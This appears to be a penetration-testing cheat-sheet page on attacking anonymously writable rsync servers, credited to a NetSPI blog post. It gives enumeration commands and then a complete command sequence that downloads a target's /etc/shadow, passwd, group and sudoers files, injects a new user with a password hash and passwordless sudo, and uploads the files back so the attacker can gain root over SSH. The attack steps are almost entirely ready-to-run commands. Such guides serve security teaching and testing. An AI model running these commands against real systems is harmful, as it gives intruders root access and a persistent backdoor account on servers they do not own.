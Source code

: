 ```yaml
---
description: >-
  Rsync is a utility for transferring and synchronizing files between two
  servers (usually Linux).
---
```


# 873 - RSYNC

example of Rsyncd.conf file that allows anonymous root access to the entire file system:

```text
motd file = /etc/Rsyncd.motd
lock file = /var/run/Rsync.lock
log file = /var/log/Rsyncd.log
pid file = /var/run/Rsyncd.pid

[files]
path = /
comment = Remote file share.
uid = 0
gid = 0
read only = no
list = yes
```

## enumeration

`nmap -p 873 192.168.0.1`

List directory

```text
rsync 192.168.1.171::
```

List sub directory contents

```text
rsync 192.168.1.171::files
```

List directories and files recursively

```text
rsync -r 192.168.1.171::files/tmp/
```

Download files

```text
rsync 192.168.1.171::files/home/test/mypassword.txt .
```

Download folders

```text
rsync -r 192.168.1.171::files/home/test/
```

Upload files

```text
rsync ./myfile.txt 192.168.1.171::files/home/test
```

Upload folders

```text
rsync -r ./myfolder 192.168.1.171::files/home/test
```

### Creating a New User through Rsync

If Rsync is configured to run as root and is anonymously accessible, it’s possible to create a new privileged Linux user by modifying the shadow, passwd, group, and sudoers files directly.

Note: The same general approach can be used for any vulnerability that provides full write access to the OS. A few other examples include NFS exports and uploading web shells running as root.

**Creating the Home Directory**  
Let’s start by creating our new user’s home directory.

```text
# Create local work directories
mkdir demo
mkdir backup
cd demo

# Create new user’s home directory
mkdir ./myuser
rsync -r ./myuser 192.168.1.171::files/home
```

**Create the Shadow File Entry**  
The /etc/shadow file is the Linux password file that contains user information such as home directories and encrypted passwords. It is only accessible by root.

To inject a new user entry via Rsync you’ll have to:

1. Generate a password.
2. Create the line to inject.
3. Download /etc/shadow. \(and backup\)
4. Append the new user to the end of /etc/shadow
5. Upload / Overwrite the existing /etc/shadow

Note: Make sure to create a new user that doesn’t already exist on the system. ![&#x1F609;](https://s.w.org/images/core/emoji/13.0.0/svg/1f609.svg)

Create Encrypted Password:

```text
openssl passwd -crypt password123
```

Add New User Entry to /etc/shadow:

```text
rsync -R 192.168.1.171::files/etc/shadow .
cp ./etc/shadow ../backup
echo "myuser:MjHKz4C0Z0VCI:17861:0:99999:7:::" >> ./etc/shadow
rsync ./etc/shadow 192.168.1.171::files/etc/
```

**Create Passwd File Entry**  
The /etc/passwd file is used to keep track of registered users that have access to the system. It does not contain encrypted password. It can be read by all users.

To inject a new user entry via Rsync you’ll have to:

1. Create the user entry to inject.
2. Download /etc/passwd. \(and back it up so you can restore state later\)
3. Append the new user entry to the end of passwd.
4. Upload / Overwrite the existing /etc/passwd

Note: Feel free to change to uid, but make sure it matches the value set in the /etc/group file. ![&#x1F642;](https://s.w.org/images/core/emoji/13.0.0/svg/1f642.svg) In this case the UID/GUID are 1021.

Add New User Entry to /etc/passwd:

```text
rsync -R 192.168.1.171::files/etc/passwd .
cp ./etc/passwd ../backup
echo "myuser:x:1021:1021::/home/myuser:/bin/bash" >> ./etc/passwd
rsync ./etc/passwd 192.168.1.171::files/etc/
```

**Create the Group File Entry**  
The /etc/group file is used to keep track of registered group information on the system. It does not contain encrypted password. It can be read by all users.

To inject a new user entry via Rsync you’ll have to:

1. Create the user entry to inject.
2. Download /etc/group. \(and backup, just in case\)
3. Append the new user entry to the end of group.
4. Upload / Overwrite the existing /etc/group file.

Note: Feel free to change to uid, but make sure it matches the value set in the /etc/passwd file. ![&#x1F642;](https://s.w.org/images/core/emoji/13.0.0/svg/1f642.svg) In this case the UID/GUID are 1021.

Add New User Entry to /etc/group:

```text
rsync -R 192.168.1.171::files/etc/group .
cp ./etc/group ../backup
echo "myuser:x:1021:" >> ./etc/group
rsync ./etc/group 192.168.1.171::files/etc/
```

**Create Sudoers File Entry**  
The /etc/sudoers file contains a list of users that are allowed to run commands as root using the sudo command. It can only be read by root. We are going to modify it to allow the new user to execute any command through sudo.

To inject a entry via Rsync you’ll have to:

1. Create the user entry to inject.
2. Download /etc/sudoers. \(and backup, just in case\)
3. Append the new user entry to the end of sudoers.
4. Upload / Overwrite the existing /etc/sudoers file.

Add New User Entry to /etc/sudoers:

```text
rsync -R 192.168.1.171::files/etc/sudoers .
cp ./etc/sudoers ../backup
echo "myuser ALL=(ALL) NOPASSWD:ALL" >> ./etc/sudoers   
rsync ./etc/sudoers 192.168.1.171::files/etc/
```

Now you can simply log into the server via SSH using your newly created user and sudo sh to root!

source:

[https://blog.netspi.com/linux-hacking-case-studies-part-1-rsync/](https://blog.netspi.com/linux-hacking-case-studies-part-1-rsync/)

